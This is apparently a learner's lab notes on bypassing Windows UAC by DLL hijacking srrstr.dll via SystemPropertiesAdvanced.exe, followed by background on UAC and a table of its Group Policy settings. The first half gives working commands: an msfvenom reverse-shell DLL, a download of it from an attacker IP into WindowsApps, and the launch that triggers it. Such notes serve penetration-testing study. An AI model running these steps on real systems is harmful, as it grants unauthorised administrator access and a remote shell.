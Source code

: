 ### Bypassing UAC
Checking if `UAC` is enabled and `UAC` Level
```powershell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

Check Windows version
```powershell
[environment]::OSVersion.Version
```

The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it.

According to [this](https://egre55.github.io/system-properties-uac-bypass) blog post, the 32-bit version of `SystemPropertiesAdvanced.exe` attempts to load the non-existent DLL srrstr.dll, which is used by System Restore functionality. **DLL Injection????**

We can bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll`DLL to `WindowsApps` folder

Review path variable
```powershell
cmd /c echo %PATH%
```

Create malicious DLL
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

Place in `%user%\AppData\Local\Microsoft\WindowsApps`
```powershell
iwr http://10.10.15.155/srrstr.dll -o "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

**Executing SystemPropertiesAdvanced.exe on Target Host**

Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.
```powershell
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Start  `SystemPropertiesAdvanced.exe`
```powershell
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

[User Account Control (UAC)](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) is a feature that enables a consent prompt for elevated activities. Applications have different `integrity` levels, and a program with a high level can perform tasks that could potentially compromise the system. When UAC is enabled, applications and tasks always run under the security context of a non-administrator account unless an administrator explicitly authorizes these applications/tasks to have administrator-level access to the system to run.

When UAC is in place, a user can log into their system with their standard user account. When processes are launched using a standard user token, they can perform tasks using the rights granted to a standard user. Some applications require additional permissions to run, and UAC can provide additional access rights to the token for them to run correctly.

The various settings are discussed in detail [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-security-policy-settings). There are 10 Group Policy settings that can be set for UAC. The following table provides additional detail:

|Group Policy Setting|Registry Key|Default Setting|
|---|---|---|
|[User Account Control: Admin Approval Mode for the built-in Administrator account](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-admin-approval-mode-for-the-built-in-administrator-account)|FilterAdministratorToken|Disabled|
|[User Account Control: Allow UIAccess applications to prompt for elevation without using the secure desktop](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-allow-uiaccess-applications-to-prompt-for-elevation-without-using-the-secure-desktop)|EnableUIADesktopToggle|Disabled|
|[User Account Control: Behavior of the elevation prompt for administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-administrators-in-admin-approval-mode)|ConsentPromptBehaviorAdmin|Prompt for consent for non-Windows binaries|
|[User Account Control: Behavior of the elevation prompt for standard users](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-standard-users)|ConsentPromptBehaviorUser|Prompt for credentials on the secure desktop|
|[User Account Control: Detect application installations and prompt for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-detect-application-installations-and-prompt-for-elevation)|EnableInstallerDetection|Enabled (default for home) Disabled (default for enterprise)|
|[User Account Control: Only elevate executables that are signed and validated](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-executables-that-are-signed-and-validated)|ValidateAdminCodeSignatures|Disabled|
|[User Account Control: Only elevate UIAccess applications that are installed in secure locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-uiaccess-applications-that-are-installed-in-secure-locations)|EnableSecureUIAPaths|Enabled|
|[User Account Control: Run all administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-run-all-administrators-in-admin-approval-mode)|EnableLUA|Enabled|
|[User Account Control: Switch to the secure desktop when prompting for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-switch-to-the-secure-desktop-when-prompting-for-elevation)|PromptOnSecureDesktop|Enabled|
|[User Account Control: Virtualize file and registry write failures to per-user locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-virtualize-file-and-registry-write-failures-to-per-user-locations)|EnableVirtualization|Enabled|
![[Pasted image 20250216170148.png]]
UAC should be enabled, and although it may not stop an attacker from gaining privileges, it is an extra step that may slow this process down and force them to become noisier.

The `default RID 500 administrator` account always operates at the high mandatory level. With Admin Approval Mode (AAM) enabled, any new admin accounts we create will operate at the medium mandatory level by default and be assigned two separate access tokens upon logging in


